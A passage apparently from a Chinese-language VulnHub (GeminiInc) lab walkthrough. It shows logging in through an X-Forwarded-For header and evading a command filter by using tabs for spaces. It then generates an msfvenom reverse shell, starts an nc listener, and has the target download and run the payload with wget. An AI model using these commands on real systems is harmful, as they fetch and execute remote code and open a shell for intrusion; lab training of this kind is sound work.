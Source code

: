 没想到设置了一波ctf中最常见的XFF就成功登录进去了

尝试执行了一些命令，发现`<`，`>` ，`|`,`\`还有空格一些符号被禁止了

这样的话空格可以用tab键来替代，然后尝试执行shell反弹

在本地用`msfvenom`生成一个反弹脚本，放在www目录下

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.85.134 LPORT=8888 -f elf -o rev
```

并监听本地8888端口

```
nc -lnvp 8888
```



然后在靶机中下载该文件并执行

```shell
wget	-O	/tmp/rev	192.168.85.134/rev
chmod	777	/tmp/rev
/tmp/rev
```

![](vulnhub-GeminiInc\23.png)

